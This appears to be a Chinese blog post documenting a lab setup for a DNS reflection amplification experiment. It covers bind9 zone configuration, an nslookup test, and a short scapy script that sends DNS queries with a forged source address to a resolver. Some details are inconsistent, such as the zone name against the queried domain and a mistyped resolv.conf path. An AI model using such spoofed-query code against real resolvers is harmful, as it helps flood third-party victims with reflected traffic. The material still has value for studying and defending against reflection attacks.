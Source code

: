 ### 完整的DNS反射放大实验

最近要做一个DNS反射放大的实验，在这里记录一下，防止自己之后配置出问题。

攻击者向开放的DNS解析器发送一个具有伪造源地址的DNS查询请求，DNS解析器将响应结果返回值受害者IP地址。

#### 一、DNS服务器搭建

1. 安装

   ~~~
   sudo apt-get install -y bind9
   ~~~

   

2. 配置named.conf文件，添加如下内容

   ~~~
   zone "xy.com" IN {
   
   type master;
   
   file "/etc/bind/db.xy.com";
   
   };
   ~~~

   

3. 配置/etc/bind/db.xy.com文件，添加如下内容

   ~~~
   $TTL    604800
   @   IN  SOA xy.com. root.xy.com. (
                     2     ; Serial
                604800     ; Refresh
                 86400     ; Retry
               2419200     ; Expire
                604800 )   ; Negative Cache TTL
   ;
   @   IN  NS  xy.com.
   @   IN  A   10.1.1.104
   www.xy.com.  IN  A   10.1.1.104
   ~~~

   xy填写自己的域名，10.1.1.104改成自己要解析的地址

4. 重启服务

   ~~~
   service bind9 restart
   ~~~

#### 二、测试

1. 配置/etc/resov.conf

   ~~~
   nameserver 127.0.0.1
   nameserver your dns server addr
   ~~~

   把这个放在前面，因为dns是按照顺序解析的

2. nslookup测试

   ~~~
   nslookup www.abc.com
   ~~~

   解析出你的地址说明配置成功。

#### 三、攻击

脚本：

~~~
#coding=utf8

from scapy.all import *

ns = '192.168.19.129'
src = ''
pkt = IP(src=src,dst=ns)/UDP()/DNS(qd='www.abc.com',ns=ns)

send(pkt)
~~~







#### 参考链接

<https://www.jianshu.com/p/e254dde956ae>

<https://blog.51cto.com/14284354/2383573>

<https://blog.csdn.net/windyf2013/article/details/78859125>



